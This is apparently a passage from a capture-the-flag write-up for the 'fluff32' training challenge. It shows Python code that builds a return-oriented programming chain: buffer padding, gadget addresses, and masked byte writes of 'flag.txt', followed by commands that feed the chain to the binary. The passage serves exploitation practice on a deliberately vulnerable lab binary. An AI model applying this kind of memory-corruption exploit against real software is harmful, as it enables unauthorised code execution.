```python
        value_bits = value_bits[:-1]

    return int(mask_bits, 2)



# Parts of the chain
fill_buffer   = b"X"*44
print_file    = little_endian(0x080483d0)
memory4string = 0x0804a018
pop_swap_cx   = little_endian(0x08048558)
pop_bp        = little_endian(0x080485bb)
prepare_dx    = little_endian(0x08048543)
exchange_byte = little_endian(0x08048555) 

# Building the chain
print(hex(get_mask("f")))
ROP_Chain = fill_buffer

for i,c in enumerate("flag.txt"):
    ROP_Chain += pop_swap_cx + big_endian(memory4string+i)
    ROP_Chain += pop_bp + little_endian(get_mask(c))
    ROP_Chain += prepare_dx
    ROP_Chain += exchange_byte

ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./fluff32
```
![](./8.png)

Heyda!!
